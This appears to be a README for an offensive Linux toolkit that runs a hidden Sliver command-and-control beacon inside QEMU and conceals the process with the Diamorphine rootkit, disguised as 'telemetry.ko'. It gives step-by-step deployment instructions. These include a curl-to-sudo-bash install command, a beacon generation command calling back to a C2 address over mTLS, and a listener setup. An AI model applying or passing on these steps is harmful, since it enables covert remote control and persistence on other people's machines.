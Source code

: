 Linux environment setup script that builds u-root, runs a concealed Sliver C2 agent in QEMU, and hides the process using Diamorphine rootkit.

Tested on Ubuntu 16.04.7 LTS (Xenial Xerus) (GNU/Linux 4.4.0-186-generic x86_64).

- Add slivki (Sliver C2 beacon), telemetry.ko (Diamorphine rootkit) and deploy.sh script to a deploy.tar.gz archive and execute starter.sh on a host;
- Change IP address of your C2 server;
- Compile Sliver C2 beacon as following:

```bash
curl https://sliver.sh/install|sudo bash

sliver

generate beacon --mtls 10.4.10.10:443 --os linux --arch amd64 --format elf --save slivki

mtls --lport 443
```


Credits:

- https://github.com/m0nad/Diamorphine
- https://github.com/u-root/u-root
- https://github.com/qemu/qemu

---

